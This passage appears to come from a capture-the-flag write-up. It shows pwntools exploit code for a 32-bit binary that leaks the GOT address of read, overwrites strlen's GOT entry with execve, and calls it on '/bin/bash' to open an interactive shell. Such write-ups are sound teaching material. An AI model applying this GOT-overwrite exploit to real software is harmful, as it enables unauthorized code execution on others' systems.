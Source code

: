 ```python

# call write(1,read_GOT,4)
payload2  = b""
payload2 += p32(add_eax)
payload2 += p32(jmp_eax)
payload2 += p32(pop_3)
payload2 += p32(1)
payload2 += p32(elf.got['read'])
payload2 += p32(4)
# read execve into strlen
payload2 += p32(read)
payload2 += p32(pop_3)
payload2 += p32(0)
payload2 += p32(elf.got['strlen'])
payload2 += p32(4)
payload2 = payload2.ljust(0xa0,b"\x90")

io.send(payload2)
leak = u32(io.read(4))
print("[!] Leak:", hex(leak))
execve = leak-162352
print("[!] Execve:", hex(execve))  

io.send(p32(execve))
  
io.interactive()
```

The GOT showing strlen was replaced with execve.

![got](/assets/holygrail/got.png)

Adding to the payload to calls `strlen("/bin/bash",0,0)`. The `17*4` was calcluated by counting the number of bytes written to bss until the "/bin/bash" string. We also do not care to cleanly return after the execve so I leave "AAAA"
```python
payload2 += p32(elf.plt['strlen'])
payload2 += b"AAAA" # Dummy data
payload2 += p32(elf.bss(17*4))
payload2 += p32(0)*2
payload2 += b"/bin/bash\x00"
```
